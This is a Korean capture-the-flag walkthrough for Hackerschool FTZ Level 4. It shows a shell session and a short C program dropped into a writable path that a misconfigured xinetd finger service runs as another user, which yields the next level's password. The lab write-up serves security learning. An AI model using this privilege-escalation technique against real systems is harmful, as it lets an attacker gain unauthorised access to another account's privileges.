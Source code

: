 # Hackerschool FTZ Level 04

```
login as: level4
level4@192.168.18.131's password:
[level4@ftz level4]$ ls
hint  public_html  tmp
[level4@ftz level4]$ cat hint


누군가 /etc/xinetd.d/에 백도어를 심어놓았다.!


[level4@ftz level4]$ cd /ect/xinetd.d
-bash: cd: /ect/xinetd.d: No such file or directory
[level4@ftz level4]$ cd /etc/xinetd.d
[level4@ftz xinetd.d]$ ls
backdoor     daytime      echo-udp  rexec   rsync     sgi_fam  time
chargen      daytime-udp  finger    rlogin  servers   talk     time-udp
chargen-udp  echo         ntalk     rsh     services  telnet
[level4@ftz xinetd.d]$ cat backdoor
service finger
{
        disable = no
        flags           = REUSE
        socket_type     = stream
        wait            = no
        user            = level5
        server          = /home/level4/tmp/backdoor
        log_on_failure  += USERID
}
[level4@ftz xinetd.d]$ cd /home/level4/tmp/backdoor
-bash: cd: /home/level4/tmp/backdoor: No such file or directory
[level4@ftz xinetd.d]$ cd /home/level4/tmp/
[level4@ftz tmp]$ ls
[level4@ftz tmp]$ touch backdoor.c
[level4@ftz tmp]$ ls
backdoor.c
[level4@ftz tmp]$ vi ./backdoor.c
```

```c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char * argv){
        system("my-pass");
        return 0;
}
```

```
[level4@ftz tmp]$ gcc -o ./backdoor ./backdoor.c
[level4@ftz tmp]$ finger @localhost
^[[H^[[J
Level5 Password is "what is your name?".

[level4@ftz tmp]$
```

`xinetd` 를 이용하여 backdoor 서버를 열었다고 한다.

그 중에서 `finger` 라는 서비스에 대한 데몬에 백도어를 심어놨다고 한다.

`finger` 리모트 유저의 정보를 가져올 때 사용하는 명령어이다.

예를 들어 `finger abc@def.com` 을 하게 되면, `def.com` 의 `abc` 유저에 대한 정보를 가져온다.

`/etc/xintd.d` 에 가면 `backdoor` 이라는 파일이 있는데, 이는 `finger` 를 통해서 어떠한 바이너리를 실행하도록 한다.

그 경로가 바로 `/home/level4/tmp/backdoor` 이며, 유저는 `level5` 의 권한으로 실행된다.

그러므로 `tmp` 에 `backdoor` 이라는 실행파일을 넣어주면 된다.

```c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char * argv){
        system("my-pass");
        return 0;
}
```

이것을 넣어 `my-pass` 를 실행하게 하였다.